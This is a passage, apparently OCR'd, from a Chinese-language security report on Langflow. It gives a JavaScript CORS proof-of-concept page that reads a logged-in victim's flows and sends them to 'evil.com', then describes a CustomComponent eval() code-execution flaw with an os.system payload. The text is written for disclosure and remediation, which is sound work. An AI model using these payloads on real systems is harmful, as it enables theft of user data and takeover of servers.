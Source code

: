                 method: 'GET',
                credentials: 'include' // Crucial for sending cookies
              });
              if (response.ok) {
                const data = await response.json();
                console.log('Leaked flows:', data);
                // Send data to attacker's server
                fetch('https://evil.com/steal_data', {method: 'POST', body: JSON.stringify(data), mode: 'no-cors'});
                alert('Flows data potentially leaked. Check console.');
              } else {
                console.error('Failed to fetch flows:', response.status, await response.text());
                alert('Exploit failed. Check console.');
              }
            } catch (error) {
              console.error('Error during exploit:', error);
              alert('Error during exploit. Check console.');
            }
          }
          exploitCORS();
        </script>
        <h1>CORS PoC Page</h1>
        <p>If you are logged into Langflow, your flows might have been accessed by this page.</p>
        ```
    3.  **复现步骤:**
        *   受害者登录 Langflow。
        *   受害者在同一浏览器访问 `evil.com/poc.html`。
    4.  **预期结果:**
        *   浏览器向 `http://<langflow_host>:7860/api/v1/flows/` 发送一个带凭据 (cookie) 的GET请求。
        *   Langflow API 因为 `allow_origins=["*"]` 和 `allow_credentials=true`，会处理该请求，并在响应中设置 `Access-Control-Allow-Origin: http://evil.com` (或 `https://evil.com`) 和 `Access-Control-Allow-Credentials: true`。
        *   恶意页面上的JavaScript成功读取到包含用户流程列表的JSON响应，并将其打印到控制台，同时尝试发送给攻击者服务器。
*   **建议修复:** 在 `settings.py` 中将 `CORS_ORIGINS` 严格限制为前端应用的实际来源 (例如 `["http://localhost:3000", "https://your-langflow-domain.com"]`)。**禁止**在 `allow_credentials=true` 时使用 `["*"]`。

### CVE-Style: CustomComponent中eval()导致的远程代码执行 (Langflow <= 1.4.2)

*   **漏洞类型 (CWE):** CWE-94 (Improper Control of Generation of Code - 'Code Injection'), CWE-78 (Improper Neutralization of Special Elements used in an OS Command - 'OS Command Injection') - 虽然是Python代码，但影响类似。
*   **受影响组件:** `langflow.interface.custom.utils.evaluate_code` 函数，被 `CustomComponent` 使用。
*   **漏洞摘要:** Langflow 的 `CustomComponent` 功能允许用户提供自定义Python代码片段，这些片段通过 `eval()` 函数在后端不安全地执行。经过身份验证的攻击者可以创建一个包含恶意Python代码的 `CustomComponent` 并将其集成到流程中。当此流程被执行时，恶意代码将在服务器上下文中执行。
*   **攻击向量/利用条件:** 需要攻击者拥有 Langflow 的有效用户凭证，并有权限创建或修改 `CustomComponent` 及包含此组件的流程。然后通过API（例如 build 或 predict 端点）触发该流程的执行。
*   **技术影响:** 成功利用允许经过身份验证的攻击者在 Langflow 应用服务器上以运行应用的权限执行任意Python代码，可能导致服务器完全被控制、数据泄露、或进一步的网络渗透。
*   **PoC描述 (执行任意代码，例如列出目录):**
    1.  **前提:**
        *   攻击者拥有有效的Langflow用户凭证。
        *   Langflow服务可访问。
        *   部署架构报告确认应用服务器运行的具体用户和权限未知，但 PoC 旨在确认代码执行。
    2.  **步骤:**
        a.  **创建恶意 CustomComponent:**
            攻击者通过 `POST /api/v1/custom_component/` 创建一个新的自定义组件。请求体中，`code` 字段包含恶意Python代码。为了简单验证，可以使用打印当前工作目录或列出目录的代码。更恶意的代码可以执行反向shell等。
            Example `code` (注意：`eval` 通常用于表达式，复杂语句可能需要 `exec`，但 `eval` 可以调用函数，如果函数执行了危险操作，效果一样。假设 `eval` 能执行 `__import__('os').system('ls /tmp')`):
            ```python
            # PoC code to be placed in the CustomComponent's "code" field